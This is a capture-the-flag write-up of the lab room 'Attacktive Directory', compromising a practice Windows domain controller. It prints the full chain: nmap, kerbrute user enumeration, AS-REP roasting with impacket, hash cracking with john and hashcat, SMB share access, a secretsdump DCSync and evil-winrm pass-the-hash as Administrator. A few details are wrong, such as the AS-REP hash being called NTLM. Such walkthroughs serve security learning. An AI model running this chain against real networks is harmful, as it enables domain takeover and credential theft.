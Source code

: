 # Room 		Attacktive Directory
> Mayank Srivastava | 17 dec 2020

## Target OS 	Windows Difficulty 	Medium
## Description 	99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

#	Reconnaissance
``` As always I can Run a nmap scan against the IP  ```

```-sC for Default script -sV for Enumerating versions -oN default nmap Output```

```nmap -Sc -sV -oN nmap <target_ip> ```

```
# Nmap 7.91 scan initiated Thu Dec 17 19:05:58 2020 as: nmap -sC -sV -oN nmap/initial 10.10.103.197
Nmap scan report for 10.10.103.197
Host is up (0.63s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-17 13:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-17T13:36:57+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2020-12-17T13:37:08+00:00; +2s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-17T13:36:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 17 19:07:24 2020 -- 1 IP address (1 host up) scanned in 86.47 seconds
```

## Enumerating Port 80

We can start by looking at the webserver. There's default IIS web page also we can do directory bruteforcing but this box is related to Active Directory so let's Move forward. There is a DNS domain name that i am going set spoookysec.local in ```/etc/hosts``` file.

## Enumerating SMB

Let's try to Enumerate 139,445 ports.
using enum4linux
```
enum4linux -a spookysec.local
Nmap Output suggested our Domain Name was spookysec.local however, enum4linux shows THM-AD.
I can see enum4linux failed to provide much inforamtion such as 
users.
```
## Kerbrute

we can try kerbrute to  get users of DC
```kerbrute username --dc spookysec.local -d spookysec.local userlist.txt```
After running this command i have some vaild users of DC.
 
```
2020/10/01 04:50:02 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/01 04:50:06 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/01 04:50:12 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/01 04:50:14 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/01 04:50:36 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/01 04:50:50 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/01 04:51:28 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/01 04:51:41 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/01 04:53:01 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/01 04:53:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/01 04:56:11 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/01 05:02:01 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/01 05:03:55 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/01 05:10:02 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/01 05:11:51 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/01 05:15:01 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```
## Exploiting Kerberos


Now i am going to crack Active Directory password with AS-REP Roasting. This is an attack agains Kerberos for user accounts that do not require pre-authentication.

```python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -usersfile valid-users.txt```

After running this command i got ```NTLM``` hash


## Cracking 

i can't wait let's decrypt the hash using john and login to ```smb```.
Also you can use ```hashcat``` for cracking the hash use mode number ```18200``` for hash

## john

``` john scv-admin.txt --wordlist=/opt/password.txt```

## hashcat

```
hashcat -m 18200 svc-admin.txt /opt/password.txt --force
```

```Running john and hashcat will gave you a password.```

now at this stage i have smb username and password so let's try to login using smbclient

```
smbclient -L //<target_ip>/ --user svc-admin


 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
I found some shares and ```backup``` seems interesting.I found ```backup_credentials.txt``` file inside the ```backup```. Let's take a look at what's that include.

``` YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw ```
it's a base64 encoding.
Decrypting will give me another credential for the user backup.

## Elevating Privileges 

``` 
python secretsdump.py -just-dc backup@spookysec.local
```

Dumping this revels administrator NTLM hash. Now i can crack the hash or use ```evil-winrm``` to connect the administrator.

```
./evil-winrm.rb -i 10.10.225.20 -u Administrator -H (HASH HERE PLEASE)
```

# Thanks For Reading

